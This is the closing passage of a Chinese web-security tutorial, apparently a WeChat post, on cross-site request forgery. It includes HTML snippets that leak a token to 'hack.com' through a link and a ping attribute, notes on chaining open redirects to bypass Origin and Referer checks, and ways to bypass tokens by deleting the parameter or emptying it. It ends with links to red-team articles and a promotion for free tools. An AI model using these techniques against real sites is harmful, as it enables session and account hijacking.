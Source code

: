 这个是劫持 user-edit 表单，并且覆盖各表单的 value，结合 CSRF 利用。

获取 url 参数中的 token

```
<ahref="https://hack.com">get_token</a>
<ahref="https://target.com/"ping="https://hack.com ">trackping</a>
```

#### 配合 URL 跳转漏洞

如果是 GET 形式的 CSRF，配合 URL 跳转漏洞，即可绕过 Origin 和 Referer 的限制。

### 绕过 X-Request-with（X-Request-with 用于区分 ajax 请求还是普通请求）

#### Token Bypass

删除 Token 参数字段

将 Token 参数值置空

这种方法适用于 token 本身存在漏洞。

  

**回顾往期内容**

[一起来学 PHP 代码审计（一）入门](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487858&idx=1&sn=47c58061798afda9f50d6a3b838f184e&chksm=fa686803cd1fe115a3af2e3b1e42717dcc6d8751c888d686389f6909695b0ae0e1f4d58e24b3&scene=21#wechat_redirect)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[新时代的渗透思路！微服务下的信息搜集](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487493&idx=1&sn=9ca65b3b6098dfa4d53a0d60be4bee51&chksm=fa686974cd1fe062500e5afb03a0181a1d731819f7535c36b61c05b3c6144807e0a76a0130c5&token=1892203713&lang=zh_CN&scene=21#wechat_redirect)
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[反杀黑客 — 还敢连 shell 吗？蚁剑 RCE 第二回合~](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247485574&idx=1&sn=d951b776d34bfed739eb5c6ce0b64d3b&chksm=fa6871f7cd1ff8e14ad7eef3de23e72c622ff5a374777c1c65053a83a49ace37523ac68d06a1&token=1892203713&lang=zh_CN&scene=21#wechat_redirect)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[防溯源防水表—APT 渗透攻击红队行动保障](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487533&idx=1&sn=30e8baddac59f7dc47ae87cf5db299e9&chksm=fa68695ccd1fe04af7877a2855883f4b08872366842841afdf5f506f872bab24ad7c0f30523c&token=1892203713&lang=zh_CN&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[实战纪实 | 从编辑器漏洞到拿下域控 300 台权限](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487476&idx=1&sn=ac9761d9cfa5d0e7682eb3cfd123059e&chksm=fa687685cd1fff93fcc5a8a761ec9919da82cdaa528a4a49e57d98f62fd629bbb86028d86792&token=1892203713&lang=zh_CN&scene=21#wechat_redirect)
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

![](https://mmbiz.qpic.cn/mmbiz_gif/BwqHlJ29vcqJvF3Qicdr3GR5xnNYic4wHWaCD3pqD9SSJ3YMhuahjm3anU6mlEJaepA8qOwm3C4GVIETQZT6uHGQ/640?wx_fmt=gif)

扫码白嫖视频 + 工具 + 进群 + 靶场等资料

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpx1Q3Jp9iazicHHqfQYT6J5613m7mUbljREbGolHHu6GXBfS2p4EZop2piaib8GgVdkYSPWaVcic6n5qg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqJvF3Qicdr3GR5xnNYic4wHWFyt1RHHuwgcQ5iat5ZXkETlp2icotQrCMuQk8HSaE9gopITwNa8hfI7A/640?wx_fmt=png)

 **扫码白嫖****！**

 **还有****免费****的配套****靶场****、****交流群****哦！**